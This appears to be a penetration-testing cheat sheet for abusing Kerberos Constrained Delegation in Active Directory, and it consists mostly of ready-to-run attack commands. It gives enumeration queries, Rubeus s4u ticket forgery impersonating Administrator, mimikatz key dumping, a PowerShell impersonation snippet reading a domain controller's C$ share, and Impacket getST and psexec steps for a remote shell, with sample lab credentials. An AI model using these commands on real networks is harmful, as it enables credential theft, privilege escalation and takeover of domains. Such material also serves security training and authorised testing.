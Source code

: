 # Kerberos Delegation - Constrained Delegation

> Kerberos Constrained Delegation (KCD) is a security feature in Microsoft's Active Directory (AD) that allows a service to impersonate a user or another service in order to access resources on behalf of that user or service.

## From Windows

### Identify a Constrained Delegation

* **Bloodhound**  
  BloodHound: `MATCH p = (a)-[:AllowedToDelegate]->(c:Computer) RETURN p`

* **PowerView**  
  ```powershell
  Get-NetComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto | ft
  ```

* **Native Powershell**  
  ```powershell
  Get-DomainComputer -TrustedToAuth | select -exp dnshostname
  Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo
  ```

### Exploit the Constrained Delegation

* **Rubeus**  
  ```powershell
  # With a password
  Rubeus.exe s4u /nowrap /msdsspn:<time/target.local> /altservice:cifs /impersonateuser:"administrator" /domain:<domain> /user:<user> /password:<password>

  # with a NT Hash
  Rubeus.exe s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:time/srv01.domain.c    om /altservice:cifs /ptt
  #Example
  Rubeus.exe s4u /user:MACHINE$ /rc4:MACHINE_PWD_HASH /impersonateuser:Administrator /msdsspn:"cifs/dc.domain.com" /altservice:cifs,http,host,rpcss,wsman,ldap /ptt
  ```
* **Rubeus: use an existing ticket to perform a S4U2 attack to impersonate the "Administrator"**  
  ```powershell
  # Dump ticket
  Rubeus.exe tgtdeleg /nowrap
  Rubeus.exe triage
  Rubeus.exe dump /luid:0x12d1f7

  # Create a ticket
  Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/srv.domain.local /ticket:doIFRjCCBUKgAwIBB...BTA== /ptt
  ```
* **Rubeus : Using AES256 keys**  
  ```powershell
  # Get aes256 keys of the machine account using mimikatz
  privilege::debug
  token::elevate
  sekurlsa::ekeys

  # Create a ticket
  Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/srv.domain.local /user:win10x64$ /aes256:4b55f...fd82 /ptt
  ```

### Impersonate a domain user on a resource
> Requires SYSTEM level privileges on a machine configured with constrained delegations

* **Powershell**  
  ```powershell
  [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
  $idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
  $idToImpersonate.Impersonate()
  [System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
  ls \\dc01.offense.local\c$
  ```
## From Linux

### Identify a Constrained Delegation

* **Impacket find Delegation**  
  ```bash
  Impacket-findDelegation <domain>/<username>:<password> -dc-ip<DC IP>
  ```
* **bloodyAD:**  
  ```bash
  bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=16777216))' --attr sAMAccountName,msds-allowedtodelegateto
  ```

### Exploit the Constrained Delegation

* **Impacket**  
  ```bash
  Impacket-getST -spn <SPN> 'DOMAIN/user:password' -impersonate Administrator -dc-ip <DC IP>

  #Example
  impacket-getST -spn TERMSRV/DC01 'inlanefreight.local/beth.richards:B3thR!ch@rd$' -impersonate Administrator -dc-ip 10.129.205.35
  ```
### Using the new ticket with PSExec
  ```bash
  export KRB5CCNAME=<CCACHE>
  Impacket-psexec -k -no-pass <domain>/<user>@host -debug

  # Example
  impacket-psexec -k -no-pass inlanefreight.local/administrator@dc01
  ```
